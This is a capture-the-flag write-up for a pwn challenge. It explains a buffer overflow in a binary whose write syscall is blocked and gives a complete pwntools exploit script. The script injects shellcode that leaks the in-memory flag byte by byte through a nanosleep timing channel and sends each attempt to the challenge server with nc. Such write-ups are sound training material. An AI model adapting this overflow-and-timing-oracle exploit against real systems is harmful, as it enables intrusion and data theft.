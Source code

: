### 0x00 Challenge: Weird Chall
**Description:**
>This is a slightly different challenge.
>
>nc 168.119.247.237 5013

### 0x01 Write-up:
It is a typical buffer overflow which is not much realistic since X is disabled... The difference between a simple bof and this challenge is this one has disabled the write syscall (and other), thus, you can run your own code but you can not print anything. If you look the assembly code of the binary, you can see that one of the syscall that are allowed is sys_nanosleep, so, you can imagine how to solve this challenge.

Basically the way to solve this challenge is developing your own shellcode that compares character by character by bruteforce the flag (that is in memory) and making a delay in order to know if the character is the good one.

**Exploit:**
```python
from pwn import *
import time
import os

context(arch = 'amd64', os = 'linux')

context.terminal = ["tmux", "splitw", "-h"]

end_flag = '}'
flag = ""
x = -8
lastchar = 'x'

while end_flag != lastchar:
    for i in string.printable:
        start = time.time()
        shellcode = '''
                xor rdx, rdx
                mov edx, %s
                mov rsi, %s
                mov al, byte ptr [r13 + rsi + 8]
                cmp rax, rdx
                jnz exit
                xor r11, r11
                mov r11d, 0
        delay:
                push 0
                push 5
                mov rsi, rsp
                mov rdi, rsi
                mov esi, 0
                mov al, 35
                syscall
        exit:
                xor rdi, rdi
                mov al, 60
                syscall
        '''%(hex(ord(i)), hex(x))
        f = open("input_pwn", "wb")
        f.write(b"A"*72 + p64(0x00000000004011c2) + asm(shellcode)+b"\x0a")
        f.close()
        log.info("Trying: %s"%i)
        os.system("cat input_pwn | nc 168.119.247.237 5013")
        end = time.time()
        if ((end - start) > 2.0):
            x+=1
            log.success("Found: %s"%i)
            lastchar = i
            flag = flag + i
            break
log.success("Flag: %s"%flag)
```

**Participant write-ups:**  
<a href="https://www.youtube.com/watch?v=9vRvnPX3rVo">Video write-up by Razvi</a>  
<a href="https://scavengersecurity.com/dekractf-weird-chall-pwn/">Write-up by Scavenger Security</a>

